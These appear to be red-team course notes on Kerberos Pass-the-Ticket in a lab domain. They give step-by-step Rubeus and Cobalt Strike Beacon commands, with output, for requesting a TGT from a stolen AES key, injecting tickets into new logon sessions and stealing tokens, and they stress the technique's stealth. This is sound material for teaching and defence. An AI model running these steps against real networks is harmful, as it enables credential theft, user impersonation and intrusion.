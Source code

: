 
_Pass the Ticket_ (or PtT), is a technique [T1550.003](https://attack.mitre.org/techniques/T1550/003/) that allows an adversary to leverage stolen, forged, or requested Kerberos tickets for user impersonation.  As with PtH, this can be implemented in different ways.  Tools like Impacket implement the Kerberos protocol for remote authentication, and tools like Rubeus inject tickets into the credential cache of a given logon session.

PtT is superior to PtH in a few important aspects.  Kerberos authentication is not anomalous, nor is it restricted as with NTLM; and passing tickets into a logon session can be done with native Windows APIs, so it does not rely on patching LSASS memory.  This makes it more stealthy, and isn't prevented by PPL.

### Requesting TGTs

We already saw in the [Credential Access](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67851a86ba9789af1107f5f9) section how Kerberos tickets can be extracted from memory.  But the adversary can also legitimately request Kerberos tickets on behalf of a user if they have their NTLM hash or AES encryption keys.  Using an NTLM hash will return RC4-encrypted tickets, which is generally not advisable.

Rubeus' `asktgt` command can be used with a user's AES key.  This will return a ticket in base64 encoded format.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\rsteel'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFo[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  17/02/2025 13:18:21
  EndTime                  :  17/02/2025 23:18:21
  RenewTill                :  24/02/2025 13:18:21
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  7ImgleIR6fnHZCxJW7MJUCabAjxvIsMS7Z55VRPaEHU=
  ASREP (key)              :  05579261E29FB01F23B007A89596353E605AE307AFCD1AD3234FA12F94EA696
```

## Injecting TGTs

Beacon has a `kerberos_ticket_use` command, which applies the given TGT to the current session.  The ticket must exist as a .kirbi file on the computer running the Cobalt Strike client.  If you have a base64 encoded ticket from Rubeus, you can write it to disk using PowerShell.

```powershell
$ticket = "doIFo[...snip...]kNPTQ=="
[IO.File]::WriteAllBytes("C:\Users\Attacker\Desktop\rsteel.kirbi", [Convert]::FromBase64String($ticket))
```

If you pass a TGT into a logon session that already has one, then you'll overwrite the existing ticket.  For example, if your Beacon is running in the context of pchilds and you inject a TGT for rsteel into the current session, pchilds' TGT will be replaced with rsteel's.  We want to avoid clobbering tickets as much as possible because, although we want to leverage the ticket, we don't want to impact the real user's access to services in the domain.

The optimal strategy is to create a new logon session that we can impersonate.  This lets us use the Kerberos ticket, without affecting a user's existing logon session.  Before doing so, this `klist` output shows our current LUID is **0x11f831e**.  It contains a TGT and LDAP service ticket for pchilds.

![[Pasted image 20250710224809.png]]

Create a new logon session using `make_token`, providing a fake password (this assumes that we don't know the user's plaintext password).

```powershell
beacon> make_token CONTOSO\rsteel FakePass
[+] Impersonated CONTOSO\rsteel (netonly)
```

Running `klist` again shows that our current LUID has changed, and there are no tickets in its cache.

![[Pasted image 20250710224949.png]]

Next, `kerberos_ticket_use` will inject the given ticket into this new session.

```powershell
beacon> kerberos_ticket_use C:\Users\Attacker\Desktop\rsteel.kirbi
```

The klist output will now show the injected ticket.

![[Pasted image 20250710225017.png]]

Any Kerberos authentication that the Beacon now performs will be under the context of rsteel.  If at any point you want to remove the tickets from this session, but without actually disposing of the session itself, use `kerberos_ticket_purge`.  When we no longer need the session, use `rev2self` to dispose of it, and the Beacon session goes back to pchilds' context.

### The Rubeus way
There are some limitations with Beacon's built-in `kerberos_ticket_use` command.  The first is that it will only inject TGTs and not service tickets.  The second is that it only accepts .kirbi files on disk, which can be cumbersome.

Rubeus' `ptt` command can inject both TGTs and service ticket, and can accept base64 encoded tickets.  The syntax is `ptt /luid:[luid] /ticket:[ticket]`.  The ticket parameter can be the base64 encoded ticket, or a path to a .kirbi on disk (in this case it would be the disk of the machine Beacon is running on, not the machine running the CS client).

Rubeus also has a `createnetonly` command which can be used instead of Beacon's `make_token` command.  This spawns a hidden process in a new logon session and returns the PID and LUID.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass

[*] Action: Create Process (/netonly)

[*] Using CONTOSO.COM\rsteel:FakePass

[*] Showing process : False
[*] Username        : rsteel
[*] Domain          : CONTOSO.COM
[*] Password        : FakePass
[+] Process         : 'C:\Windows\notepad.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2524
[+] LUID            : 0x132ef34
```

A ticket can then be injected.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x132ef34 /ticket:doIFoDC<SNIP>TAyMjQxMzQyMza3JidGd0GwtDT05UT1NPLkNPTQ==

[*] Action: Import Ticket
[*] Target LUID: 0x132ef34
[+] Ticket successfully imported!
```

Then steal the token of the spawned process to utilise the ticket.

```powershell
beacon> steal_token 2524
[+] Impersonated CONTOSO\pchilds
```

To drop the impersonation, run `rev2self` then terminate the spawned process using Beacon's `kill` command.

> This worked but it's a logon type 9 so the network credentials will be for rsteel

### The getuid Confusion

> Many students see the above output of `steal_token` and are confused as to why it would say _pchilds_ and not _rsteel_.  This is because the user information returned by `steal_token` and `getuid` is taken from the primary access token of the process.  It does not matter if you pass alternate credential material into the logon session to which the process is linked, either by PtH or PtT, the username returned will always be that of the user that spawned the process.